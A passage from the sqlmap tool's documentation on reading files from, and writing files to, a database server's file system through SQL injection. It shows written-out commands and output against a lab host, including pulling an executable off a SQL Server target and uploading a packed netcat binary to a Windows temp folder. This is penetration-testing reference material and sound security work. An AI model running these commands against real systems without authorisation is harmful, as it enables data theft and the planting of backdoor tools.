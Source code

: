 It is possible to retrieve the content of files from the underlying file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a Microsoft SQL Server 2005 target to retrieve a binary file:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### Upload a file to the database server's file system

Options: `--file-write` and `--file-dest`

It is possible to upload a local file to the database server's file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a MySQL target to upload a binary UPX-compressed file:

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0
```